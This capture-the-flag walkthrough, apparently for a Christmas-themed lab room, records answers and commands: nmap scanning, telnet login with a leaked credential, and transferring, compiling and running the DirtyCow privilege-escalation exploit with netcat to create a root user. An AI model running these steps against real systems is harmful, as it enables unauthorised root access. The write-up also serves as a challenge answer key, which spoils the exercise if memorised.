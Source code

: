 # Coal for Christmas

- Hi Santa, hop in your sleigh and deploy this machine!

	  no answer needed

- nmap <TARGET_IP>

	  no answer needed

	- `nmap <TARGET_IP>`

- What old, deprecated protocol and service is running?

	- `telnet`

- What credential was left for you?

	- `telnet <TARGET_IP> 23`
	- `clauschristmas`

- What distribution of Linux and version number is this server running?

	- `uname -a`
	- `Ubuntu 12.04`

- Who got here first?

	- `cat cookies_and_milk.txt`
	- `grinch`

- This cookies_and_milk.txt file looks like a modified rendition of a DirtyCow exploit, usually written in C. Find a copy of that original file online, and get it on the target box. You can do this with some simple file transfer methods like netcat, or spinning up a quick Python HTTP server... or you can simply copy-and-paste it into a text editor on the box!

	  no answer needed

	- [dirtycow](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
	- On your machine `nc -lnvp 4444 < dirty.c`
	- On target `nc -w 3 <YOUR_IP> 4444 > dirty.c`
	
- What is the verbatim syntax you can use to compile, taken from the real C source code comments?

	- `gcc -pthread dirty.c -o dirty -lcrypt`

- Run the commands to compile the exploit, and run it.
What "new" username was created, with the default operations of the real C source code?

	- `./dirty` and then enter the password you've chosen
	- `firefart`

- What is the MD5 hash output?

	- `cat message_from_the_grinch.txt`
	- `touch coal`
	- `tree | md5sum`
	- `8b1**00dd******adb02**********cc`




### see you ...
